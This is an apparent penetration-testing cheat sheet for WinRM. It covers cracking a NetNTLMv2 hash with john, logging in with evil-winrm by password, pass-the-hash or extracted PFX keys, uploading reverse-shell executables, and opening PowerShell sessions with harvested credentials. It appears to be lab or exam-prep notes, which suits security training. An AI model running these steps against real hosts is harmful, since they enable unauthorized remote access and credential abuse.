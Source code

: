 # (5985) WinRM

<details>

<summary>Uses</summary>

* Remotely communicate and interface with hosts

- Execute commands remotely on systems that are not local to you but are network accessible

* Monitor, manage and configure servers, operating systems and client machines from a remote location

</details>

<details>

<summary>Cracking NetNTLMv2 hashes for login</summary>

```bash
echo "Administrator::DESKTOPH3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D
801F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500
3800440049003400410053004300510004003400570049004E002D004E00480045003800440049003400410
05300430051002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C
004F00430041004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D
801060004000200000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA926
30A77E073056DA8C3F356D47C324C6D6D16F0A0010000000000000000000000000000000000009002000630
06900660073002F00310030002E00310030002E00310034002E00320035000000000000000000" >
hash.txt
```

```
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

</details>

<details>

<summary>Evil-winrm for login</summary>

* Using password:

```bash
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```

* Using hash:

```bash
evil-winrm -i 10.11.1.21 -u pete -H 0f951bc4fdc5dfcd148161420b9c6207
```

* Uploading files to Victim

```bash
upload reverse_139.exe
```

</details>

<details>

<summary>Upload/Download files (Evil-Winrm)</summary>

### Download (have to put full file paths)

```bash
download c:\temp\20230511182430_BloodHound.zip /oscp/ad/20230511182430_BloodHound.zip
```

### Upload (doesn't need full file paths)

```bash
upload reverse.exe
```

</details>

<details>

<summary>Enter-PSSession</summary>

```powershell
$cred = New-Object System.Management.Automation.PSCredential ("cowmotors\svc_web", $password)

$session = Enter-PSSession -computername "WEB02" -credential $cred

$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist "cowmotors.com\svc_web",$passwd
```

</details>

<details>

<summary>Login via PFX File</summary>

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out publicCert.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv-key.pem -nodes

# Since port 5986 (WinRM with SSL) is open instead of 5985 (WinRM):
evil-winrm -i 10.10.11.152 -c publicCert.pem -k priv-key.pem -S
```

</details>
